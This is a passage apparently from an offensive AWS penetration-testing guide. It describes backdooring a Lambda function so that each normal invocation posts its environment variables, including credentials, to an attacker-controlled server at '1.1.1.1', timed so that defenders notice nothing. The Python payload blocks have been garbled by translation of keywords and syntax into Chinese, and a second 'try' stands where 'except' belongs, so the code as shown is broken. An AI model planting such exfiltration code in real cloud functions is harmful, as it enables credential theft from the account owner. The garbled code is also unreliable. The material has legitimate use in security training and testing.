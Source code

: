 The only problem with this payload is that it assumes we can view the execution logs of this Lambda function, which we may or may not have access to. We need either access to CloudWatch logs or the ability to run the function with test events, so we can view the output in the web console. For now we'll say that we don't have CloudWatch access, so we'll have to go with test events. The next problem is that we are likely missing the whole context around this Lambda function. We don't necessarily know when it would make sense for the function to be invoked, when it would make sense that the function errors out, how often it gets invoked, what the implications are if it is invoked outside of its normal triggers, and many other things.

To solve that problem, we can either just ignore it and run test events against the function without worrying about the consequences (not a good idea, unless you are very sure it won't break anything in the environment and that it won't attract unnecessary attention from a defender), or we can modify our payload to exfiltrate the credentials, kind of like the first section of this chapter. This would likely be the safest method, because we can add our malicious payload to the function, set up a listener on our external server, and then just wait until the Lambda function gets invoked normally. To do this, we could import the subprocess and use `curl` like before, but a simpler way would be to use the Python `requests` library. Requests isn't automatically included in the default libraries available to a Lambda function, but `botocore` is, and `botocore` relies on the `requests` library, so there is a cool trick that we can use to import and use `requests`. Instead of `import requests`, we use the following `import` statement:

```

从 botocore.vendored 导入请求

```

Now, we can access the `requests` library normally. So, following a similar method to what we did earlier in this chapter, we can just send an HTTP `POST` request with all the environment variables to our external server. We could also run the AWS API calls from within the Lambda function and exfiltrate the output, which would technically be safer, because the API calls would be coming from the same IP address as expected, rather than our external attack IP; however pulling the environment variables is more versatile and requires less modification to the function over time, so we are going with that. The following payload will do just that (where we are pretending that `1.1.1.1` is the IP of our external server again):

```

尝试：

导入 os

从 botocore.vendored 导入请求

请求.post（'http://1.1.1.1'，json = os.environ.copy（），超时= 0.01）

尝试：

通过

```

It uses the `requests` library to send an HTTP `POST` request that contains the environment variables fetched with the OS library, and the timeout is set to `0.01` so that the request is sent; the code immediately moves on, rather than waiting for any response and causing the Lambda function itself to timeout. Once this payload is added to the target Lambda function, we just wait for the function to get invoked by normal means, and eventually, we will get the credentials sent to our server:
